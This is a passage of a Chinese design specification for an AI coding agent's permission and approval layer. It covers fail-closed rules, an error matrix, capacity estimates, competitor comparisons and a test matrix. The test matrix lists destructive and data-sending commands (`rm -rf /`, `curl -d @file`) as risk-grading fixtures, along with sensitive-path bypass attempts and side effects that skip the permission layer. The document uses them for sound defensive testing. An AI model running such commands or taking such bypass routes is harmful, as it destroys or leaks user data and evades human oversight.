- **并发**：决策无共享可变状态；审批等待用虚拟线程（阻塞不占平台线程）；同一 `approvalId` 应答用 CAS 保证幂等；策略热加载用不可变快照 + 原子替换（读路径无锁）。
- **事务与外部调用纪律**：审批 outbox 落库、授权记忆写入与审计链追加由平台适配器以 `@Transactional(rollbackFor = Exception.class)` 实现（先落 outbox 再呈现，重启可续答）；审批通道推送、Redis Pub/Sub 广播与策略服务拉取均为**外部调用**，一律移出事务边界（提交后事件驱动），禁止在事务体内等待审批应答。
- **可靠性**：审批请求先落 outbox 再呈现（进程重启后续答）；记忆撤销通过 Redis Pub/Sub 广播，多实例 100ms 内一致；审计写失败重试 + 本地 WAL 兜底（不丢安全事件）。
- **安全**：审计哈希链（`prev_hash` + `entry_hash`）保证不可篡改；审批请求不携带完整敏感参数（仅摘要 + 引用，REQ-PERM-30）；日志统一中文占位符，禁止打印密钥、Token 与完整路径中的凭证片段；`permission.explain` 输出对路径做工作区相对化处理。
- **可解释**：任何决策可回答「哪条策略 + 哪条规则 + 为什么」，轨迹按阶段录制（归一化结果、风险依据、逐层命中、记忆命中、聚合结论）。
- **可测试**：决策回放把真实决策固化为回归用例（`DecisionReplayTest`）；故障注入覆盖通道不可用、策略库不可读、审计写失败、Redis 掉线。

### 10.1 错误矩阵（错误 → ErrorCode → 可重试 → 用户可见文案 → 恢复动作）

本域的「错误」多数表现为**决策结果**（`DENY` / `ASK`）而非异常；下表覆盖「决策结果 + 真正异常」两类，文案即回喂给模型 / 呈现给用户的权威口径。

| 错误场景 | ErrorCode / 决策 | retryable | 用户可见文案 | 恢复动作 |
| --- | --- | --- | --- | --- |
| 归一化失败 / 命令歧义 | `ASK`（`ambiguous`）或 `DENY`（策略 `ambiguity-handling=deny`） | 否 | 「命令解析存在歧义（`<reason>`），已升级确认」 | 按 `risk.ambiguous-action` 处置；歧义结论禁止沉淀为记忆 |
| 命中敏感集合（路径 / 密钥 / 凭证） | `DENY`（`overridable=false`） | 否 | 「该操作触及受保护资源，任何模式与规则均不可放行」 | 拒绝 + 审计哈希链；提示改用工作区内路径 |
| 敏感校验无法判定（链接不可解析 / 元数据读取受限） | `ASK`（`overridable=false`，强制询问） | 否 | 「该操作涉及受保护资源且无法完成校验，需人工确认」 | 升级至企业审批人；**绝不**默认放行（I-PERM-6 / §3.7.1 阶段 3） |
| 策略库不可读 / 版本无法解析 | `DENY` + `permission.policy.unavailable` | 是 | 「权限策略暂不可用，已按拒绝处理（fail-closed）」 | 恢复后自动重载；期间**绝不**默认放行 |
| 策略包完整性校验失败 | `DENY` + `permission.policy.integrity.violation` | 否 | 「策略包签名或哈希校验失败，已保留上一版本」 | 阻断应用 + 告警；管理员重签后重试 |
| 锁定层级被下级覆盖尝试 | `DENY` + `permission.override.denied` | 否 | 「组织策略为锁定项，覆盖请求已被拒绝」 | 拒绝 + 留痕；如需变更由管理员发布新版本 |
| 审批通道不可用 / 应答不合规 | `APPROVAL_UNAVAILABLE`（fail-closed 视为拒绝） | 是（通道恢复后） | 「审批通道不可用，本次操作已拒绝；恢复通道后可重试」 | 恢复通道；提示查看 `approval.list` 重试入口 |
| 审批超时（动作 `deny`） | `APPROVAL_EXPIRED` | 是（重新发起） | 「审批超时（`<timeout>`s），已按拒绝处理」 | 用户可重新发起；重复同动作走 30s 去重窗口 |
| 授权记忆已撤销 / 被模式收窄 | `ASK`（回到询问） | 否 | 「上次授权已失效，需要重新确认」 | 重新询问；撤销经 Pub/Sub 多实例 100ms 内一致 |
| 越权借旧引用 / 跨租户资源 | `DENY`（`PERMISSION_DENIED`） | 否 | 「无权访问该资源」 | 拒绝 + 审计；不泄露资源归属信息 |
| 决策重放结果不一致 | 非错误（差异记录） | — | 管理面：「决策 `<id>` 重放差异：`<diff>`」 | 记 `oc_decision_replay`；≥ 阈值即冻结对应规则并告警 |
| 旁路检测命中 | `permission.bypass.detected`（安全事件） | 否 | 「检测到未登记的副作用写入」 | 升级安全告警 + 冻结该来源；人工复核后解冻 |

### 10.2 容量估算（单实例与租户口径）

- **策略规模**：单租户策略规则 ≈ 200–2000 条（五层带合计），预编译为 `Predicate<NormalizedAction>` 数组后常驻 ≈ 1–8MB；热加载为不可变快照 + 原子替换（读路径无锁），峰值瞬时双份 ≈ 16MB。
- **决策记录**：单决策行 ≈ 1–3KB（含 `trace_json`）；50 并发会话 × 每轮 8 次工具调用 × 6 轮/小时 ≈ 2400 决策/小时/实例 → 月增 ≈ 170MB（审计保留 ≥ 1 年，按月分区）。
- **审批量**：ASK 比例目标 ≤ 10%（`oc_permission_ask_ratio` 门禁）；审批请求行 ≈ 2–5KB，pending 部分索引保证列表查询 O(pending)。
- **记忆规模**：会话级记忆单会话 ≤ 64 条、单条 ≤ 1KB（Redis，含租户与动作摘要）；项目级及以上落 PG，单租户 ≤ 5 万条（≈ 30MB）。
- **审计链**：单安全事件 ≈ 0.5–2KB，哈希链顺序扫描按批 500 条；企业审计保留 ≥ 3 年，100 万事件/年 ≈ 1–2GB。
- **延迟预算**：决策 P95 ≤ 10ms（本地策略 + 记忆命中）；记忆未命中走策略求值路径仍 ≤ 10ms；审计异步落库 ≤ 50ms；审批人工延迟不计入本域预算（`oc_approval_latency_ms{dimension=human}` 单独观测）。

### 10.3 与竞品对照的取舍

1. **审批的「仅本次 / 级联终止」二分（I-PERM-5）**：OpenCode / Codex 的审批语义偏向「单次放行 + 记忆」，我们额外引入 `reject-and-halt`（拒绝并终止同会话 pending），代价是 UI 多一个选项、状态机多一个终态，收益是用户能一次性止损。
2. **记忆封顶（六级范围）**：竞品普遍允许「总是允许」。我们采纳六级范围但**强制封顶**：记忆不能把 DENY 变 ALLOW、不能突破模式与敏感集合——这是把「便利性」明确排在「不可绕过的安全基线」之后。
3. **敏感路径强校验不可 bypass（REQ-PERM-2/-11）**：Codex 的 `sandbox_permissions_preserving_denied_reads` 语义 `[E1]` 说明「保留被拒读」必须贯穿提权路径。我们把该语义落到权限层（`overridable=false` 短路）+ 沙箱层（denied-read 存在即禁脱沙箱）双侧，代价是双实现，收益是单点失效不致命。
4. **五层求值 vs 竞品扁平配置**：gemini-cli / deepseek 的策略多为「模式 + 允许列表」扁平结构。我们选择五层带 + 拒绝优先 + 带内小数优先级，代价是解释成本（用 `permission.explain` 轨迹补偿），收益是企业/项目/用户三级治理不需要互相覆盖。
5. **基线锁定的强制力（REQ-PERM-25）**：Qoder 企业面把策略下发做成签名基线 `[E2]`。我们采纳签名 + 哈希清单 + 锁定层级「只可增不可减」，并显式拒绝静默降级为更宽策略。

---

## 11. 测试与验收（DoD）

### 11.1 用例矩阵

| 类别 | 用例 | 断言 |
| --- | --- | --- |
| 风险分级 | 30+ 参数级用例（含 `rm -rf /`、`ls`、`curl -d @file`、`push --force`） | 风险类与预期一致，证据链可查 |
| 风险分级 | 歧义源 21 条（§3.7.2 清单） | PARTIAL/UNPARSED 处置正确且禁沉淀 |
| 策略求值 | 五层冲突 5 组 + 拒绝优先 3 组 | 结论符合 §3.7.5 聚合规则 |
| 策略求值 | 锁定层覆盖尝试 | 阻断 + `permission.override.denied` |
| 规则 DSL | 每条谓词字段命中/未命中 | 匹配语义与 §3.7.3/§3.7.4 一致 |
| 路径匹配 | 12 类别名（符号链接/短名/UNC/ADS/硬链接/大小写） | 全部按 canonical + inode 判定 |
| 审批 | 通道不可用 / 超时 / 升级 / 重复应答 | fail-closed；幂等；升级链正确 |
| 审批 | 批量授权传播 + 级联拒绝 | 部分资源请求不被误放行；HALT 终结全部 pending |
| 记忆 | 六级范围写查撤 + 撤销立即生效 | 撤销后同动作重新 ASK |
| 模式 | 六档各一条 + 收窄 + `yolo` 企业禁用 | 模式只收窄；`yolo` 覆盖 SAFETY 失败 |
| 敏感 | 5 类绕过尝试（§3.7.6 表 1/2/3/4/5） | 全部 DENY 且审计留痕 |
| 沙箱联动 | 权限 ALLOW + 围栏拦截；denied-read 提权 | `sandbox.denied` 事件；提权被静默降级 |
| 回放 | 100 条真实决策重放 | 结果一致率 100%；差异 0 |
| 审计 | 哈希链校验 + 篡改检测 | 篡改即校验失败并告警 |
| 旁路 | 构造未登记副作用（直连低层 API） | `permission.bypass.detected` 命中 |
| 完整性 | 策略文件篡改 | 启动拒绝 + `permission.policy.integrity.violation` |
| 故障注入 | 策略库不可读 / 审计写失败 / Redis 掉线 / 审批通道全断 逐项注入 | 策略库不可读 → fail-closed DENY + `permission.policy.unavailable`；审计写失败 → 本地 WAL 兜底不丢事件；Redis 掉线 → 降级内存会话记忆并显式提示；通道全断 → 立即 fail-closed 不无限阻塞 |
| 故障注入 | 审批应答并发 1000 次 + 重复应答 + 会话中途 kill（pending 请求在途） | 应答幂等（CAS + `idempotency_key`）；pending 请求在重启后仍可应答（outbox 先落库再呈现） |
| 性能 | 决策压测 | P95 ≤ 10ms；策略热加载无长尾 |

### 11.2 门禁命令

```bash
# 门禁映射（卷 27 §4.6）：第 1 条 →「单元测试 + 覆盖率门」；第 2 条 →「集成测试」；第 3 条 →「集成测试」+「安全红队（增量用例：旁路扫描语料）」
mvn -pl harness-kernel/kernel-permission -am test    # 决策链与审批编排单测（零框架）
mvn -pl harness-platform/platform-persistence -am test   # 策略/记忆/审批持久化集成（PG + Redis）
mvn -pl harness-host/host-bootstrap -am test         # main 链路（装配 + 事件 + 审计）
```

> 模块名对齐卷 27 §4.1 目标 reactor 结构（R07 已把 §1.4 与本块统一为目标名，v1 名仅保留在 §1.4 的「迁移来源」列）。

性能门禁：`PermissionDecisionLatencyTest`（P95 ≤ 10ms）、`ApprovalConcurrencyTest`（1000 并发应答幂等）。

### 11.3 实现级决策登记（I-PERM）

| ID | 主题 | 选定 | 被放弃分支 / 回退触发 |
| --- | --- | --- | --- |
| I-PERM-1 | 参数级风险判定 | 归一化 + 命令 AST + 配置化模式集 + 地板取高 + 企业扩展点 | B1/B2/B4；平台 AST 覆盖率低于阈值 → 一律取高 + 强制 ASK |
| I-PERM-2 | 策略求值模型 | 五层带（admin > workspace > user > session > default）+ 带内小数优先级 + 拒绝优先 | B1/B3；同带冲突频次超阈 → 规则 ID 字典序决胜 + 策略告警；对卷 06 §4.2 的修订建议登记于 `IMPL-DECISIONS.md` |
| I-PERM-3 | 单一入口强制 | 网关 + 架构测试约束 + 旁路扫描 + 沙箱围栏兜底 | B1/B2；非 JVM 插件降级为高频扫描 + 围栏强制 |
| I-PERM-4 | 授权记忆存储 | 会话级 Redis + 项目级以上 PG + 撤销广播失效 | B1/B2；Redis 故障降级为内存会话记忆并显式提示 |
| I-PERM-5 | 审批编排 | 虚拟线程阻塞 + outbox 持久化 + 幂等应答 + 多通道回收；拒绝分「仅本次」与「级联终止」 | B1/B2；通道全断立即 fail-closed 不无限阻塞 |
| I-PERM-6 | 敏感路径强校验 | 配置化敏感集合（只可加）+ 决策链首步短路 + 执行期由沙箱按 fd 复核 | B1/B3（沙箱复核职责归卷 07，避免双实现）；无法判定即 `ESCALATE_ASK` |

**与 Phase A 的一致性**：六项 I 决策均为 D-PERM-1…12 的实现层细化；`I-PERM-2` 的层序归并与卷 06 §4.2 表述存在措辞差异（差异格已限定为「会话级 ALLOW vs 用户级 DENY」，结论趋严），按 Phase B 规程登记修订建议而不改动 Phase A 卷册。REQ-PERM-8、REQ-PERM-11、REQ-PERM-12、REQ-PERM-17、REQ-PERM-19、REQ-PERM-25、REQ-PERM-30 为竞品证据带来的增量需求（源自 opencode / gemini-cli / codex / deepseek 的源码事实），统一在 `IMPL-DECISIONS.md` 汇总。
